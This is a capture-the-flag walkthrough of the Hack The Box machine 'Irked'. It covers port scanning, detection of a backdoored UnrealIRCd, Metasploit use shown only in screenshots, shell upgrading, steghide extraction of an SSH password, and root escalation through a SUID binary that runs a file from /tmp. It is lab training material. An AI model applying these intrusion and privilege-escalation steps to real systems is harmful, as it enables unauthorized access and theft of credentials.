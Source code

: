 # Irked

__URL__: https://www.hackthebox.eu/home/machines/profile/163

__Machine IP__: 10.10.10.117

__DATE__ : 10/04/2019

-------------------------------------------------------------------------------

Let's start with the basics

`NMAP` - Full port scan
------------------------

```bash
➜ nmap -p- 10.10.10.117
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-21 15:16 IST
Nmap scan report for 10.10.10.117
Host is up (0.16s latency).
Not shown: 65505 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
111/tcp   open     rpcbind
4027/tcp  filtered bxp
6324/tcp  filtered hrd-ncs
6697/tcp  open     ircs-u
7852/tcp  filtered unknown
8067/tcp  open     infi-async
8218/tcp  filtered unknown
8901/tcp  filtered jmb-cds2
33435/tcp filtered mtrace
55801/tcp open     unknown
65534/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 2713.11 seconds
```

Okay so as usual we can see the port 22 and 80 are open. But what looked interesting was `ircs-u` i.e port `6697`.

**Why this is interesting?**

Because we can try to connect with the IRC and maybe even try to exploit that.

-------------------------------------------------------------------------------

Let's test whether there is something fishy with the IRC service:

```bash
➜ nmap -sV --script=irc-unrealircd-backdoor 10.10.10.117 -p 6697
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-21 20:20 IST
Nmap scan report for 10.10.10.117
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
6697/tcp open  irc     UnrealIRCd
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
Service Info: Host: irked.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.28 seconds
```

hmmm....trojaned version of IRC meaning someone has messed with it... Let's fire up the big gun

So we use metasploit to exploit this CVE:

![alt text](images/irked-1.png)

All the options are set Now, :boom: `EXPLOIT` :boom:

![alt text](images/irked-2.png)

After Getting reverse shell I spawn the TTY shell using python:
```python
python -c 'import pty; pty.spawn("/bin/sh")'
```
I spent sometime looking around and found a user called `djmardov` and found out that there's a backup file in the `Document` folder.

```bash
$ cat /home/djmardov/Documents/.backup
cat /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
hmm...:thinking_face:

After lot of messing around, reading forum comments and what not I figured out why it was referring to Stego.
Basically If you visit the website(http://10.10.10.117/) we are prompted with the following page:

![alt text](images/homepage.png)

I asked myself a question `what if this yellow image has something to do with Stego?` So why not test this with something like steghide.

```bash
➜ steghide extract -sf irked.jpg
Enter passphrase:
wrote extracted data to "pass.txt".
```

Wooh!!! :tada:

------------------------------------------------------------------------------

I got `pass.txt` using `UPupDOWNdownLRlrBAbaSSss` as steghide password

```bash
➜ cat pass.txt
Kab6h+m+bbp2J:HG
```

Use this password to login into the `djmardov's` account via `SSH`

![alt text](images/ssh-in.png)

Now just find the **`user.txt`**  in the `Documents` folder

```bash
djmardov@irked:~$ cat ./Documents/user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
```

Priv escalation
--------------------------------------------------------------------

Now let's run `LinEnum` file to see if we can find something interesting.
I got something interesting in SUIDs

![alt text](images/suid.png)

The `viewuser` command looks interesting.Executing the viewuser command I got the following output:

![alt text](images/viewuser.png)

Notice the last line
```
sh: 1: /tmp/listusers: not found
```

So basically the `viewuser` command is showing all the users and then it's trying to execute the `listusers` file in the `/tmp` directory.

Let's go and make a file and see with what privileges it's executing that file(it should be `root` because the `viewuser` SUID is under root)

```bash
#!/bin/bash
whoami
```
Now execute the `viewuser` command again and BOOM!!! :tada:

![alt text](images/whoami.png)

This mean we can execute any command as a `root`, so simply put the following line in the file:

```bash
#!/bin/bash

cat /root/root.txt
```

![alt text](images/root.png)


